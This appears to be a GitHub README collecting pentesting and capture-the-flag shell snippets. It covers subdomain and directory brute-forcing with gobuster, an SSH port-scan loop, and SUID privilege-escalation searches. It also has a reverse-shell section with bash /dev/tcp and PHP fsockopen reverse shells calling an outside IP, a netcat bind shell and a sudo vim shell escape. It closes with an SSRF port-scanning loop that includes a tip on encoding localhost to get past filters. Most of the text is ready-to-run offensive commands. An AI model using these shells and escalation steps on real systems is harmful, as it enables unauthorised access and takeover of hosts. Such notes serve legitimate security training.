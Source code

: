 # Some useful shell scripts
I upload some useful shell scipts here now and then.

### **Clone the repository**
```bash
git clone https://github.com/century300/useful-shell-scripts ~/Downloads/useful-shell-scripts && cd ~/Downloads/useful-shell-scripts && chmod +x *
```
<br/>

### **read_etc-passwd_file.sh**
- This script read the /etc/passwd file and output each user shell and directory
```bash
./read_etc-passwd_file.sh
```
- Or you can run the code in terminal
```bash
while IFS=: read -r f1 f2 f3 f4 f5 f6 f7
do
 echo "User $f1 use $f7 shell and stores files in $f6 directory."
done < /etc/passwd
```
<br/>

### **Bash for loop**
- for loop syntax
```bash
for OUTPUT in $(Linux-Or-Unix-Command-Here)
do
	command1 on $OUTPUT
	command2 on $OUTPUT
	commandN
done
```
- Usage 1: gobuster brute-force using SecLists subdomains wordlist to discover virtual hosts names, then use **_for loop_** and dirbuster wordlist to find the _flag_ in there
```bash
gobuster vhost -u http://TargetWebsite.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30

for vhost in subDomain1 subDomain2 subDomain3; do gobuster dir -u http://${vhost}.TargetWebsite.com -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,txt -t30 -o Output.txt; done
```
- Usage 2: **ssh_spam.sh**: check to see which one is the useful/real ssh service in CTF
```bash
# You can run the ssh_spam.sh directly
./ssh_spam.sh

# Or you can copy the script to your terminal to run directly
for port in {1..65535}
do
	printf "$port"
	ssh -o StrictHostKeyChecking=no -p $port <target_IP>
done
```
<br/>

### **Privilege escalation by using SUID**
- **-u=s** denotes files owned by the root user, **2>/dev/null** means to redirect all errors to /dev/null (aka ignoring all errors)
```bash
# Find SUID executables
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null

# Find SUID
find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
<br/>

### [**Reverse Shell Tricks**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```bash
# Get a tty shell
python -c 'import pty; pty.spawn("/bin/sh")'
# Upgrade shell to a tty
SHELL=/bin/bash script -q /dev/null
# Set terminal
export TERM=xterm-256color
#Switch to the background with CTRL+Z

# If sudo -l in user has access to /usr/bin/vim
sudo vim -c ":!/bin/sh"

# Bash reverse shell
bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
# PHP reverse shell
php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
# Netcat Bind shell
nc -lvp 4444 -e /bin/sh
```
<br/>

### SSRF attack to see which port is open
- We can use bash script instead of Burp Suite Intruder attack
```bash
# Run the script directly
./ssrf-open-ports.sh

# Run the source code directly in the terminal.
# 127.0.0.1 can be replaced with its Decimal (2130706433) or Hexadecimal (0x7f000001) counterparts to bypass restrictions.
for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.xx.xx:8080/attack?url=http://127.0.0.1:${x} \
        -w %{size_download});
    if [ $cmd != 1045 ]; then
        echo "Open port: $x"
    fi
done
```
